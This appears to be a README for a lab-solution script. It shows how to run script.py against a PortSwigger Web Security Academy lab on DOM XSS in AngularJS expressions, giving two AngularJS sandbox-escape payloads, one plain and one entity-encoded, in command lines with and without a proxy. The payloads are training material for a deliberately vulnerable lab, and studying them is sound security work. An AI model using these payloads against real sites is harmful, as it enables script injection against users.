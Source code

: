 # How to run script.py

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

#### {{constructor.constructor('alert(\"XSS\")')()}}

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "{{constructor.constructor('alert(\"XSS\")')()}}"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "{{constructor.constructor('alert(\"XSS\")')()}}" -p 127.0.0.1:8080`

#### {{[].pop.constructor%26%2340'alert\u00281\u0029'%26%2341%26%2340%26%2341}}

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "{{[].pop.constructor%26%2340'alert\u00281\u0029'%26%2341%26%2340%26%2341}}"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "{{[].pop.constructor%26%2340'alert\u00281\u0029'%26%2341%26%2340%26%2341}}" -p 127.0.0.1:8080`
